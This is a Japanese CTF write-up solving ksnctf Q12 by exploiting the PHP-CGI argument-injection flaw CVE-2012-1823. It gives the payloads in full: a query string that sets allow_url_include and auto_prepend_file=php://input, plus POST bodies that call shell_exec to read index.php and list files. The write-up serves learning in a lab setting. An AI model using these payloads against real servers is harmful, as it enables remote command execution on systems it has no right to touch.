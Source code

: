 「#!」← これの名前を聞いているんですかね？

Pythonの先頭の行に使うこれ。

名前は「Shebang」というらしいです。

Unix系システムにおいて、ファイルに書かれたプログラム文をどの実行ファイルで実行するのかという指定らしいですね。

---

## Q12 「Hypertext Preprocessor」

![ksnctf-q12.png](ksnctf-q12.png)

Hypertext Preprocessor → php ということで、php の脆弱性に由来するものかなと予想。

リンクを開いてみると時刻が赤字で表示されているだけでした。

ここで悩んでいると、CTF友達 I が横から乱入してきました。

「このサイトが参考になる」ということで、下記のサイトを紹介されました。

[CGI版PHPにリモートからスクリプト実行を許す脆弱性(CVE-2012-1823)](https://blog.tokumaru.org/2012/05/php-cgi-remote-scripting-cve-2012-1823.html)

徳丸さんの日記で、CGI版PHPのスクリプト実行の脆弱性について紹介されていました。

一応、[CGIとは](https://e-words.jp/w/CGI.html)

なるほど、これを使えば良いのかということで、

BurpSuiteを起動！Repeaterを起動！

GET から POST に変更して、

URL 
```
/q12/?-d+allow_url_include%3DOn+-d+auto_prepend_file%3Dphp://input
```
Content
```
<?php echo shell_exec('cat index.php'); ?>
```

[shell_exec](https://www.php.net/manual/ja/function.shell-exec.php) とは「シェルによりコマンドを実行し、文字列として出力全体を返す」PHPの関数ですね。

「Flag is in this directory.」ということのようなので ls を使ってみましょう。

Content
```
<?php echo shell_exec('ls'); ?>
```

それらしきファイルがあり、フラグを得ることができました。

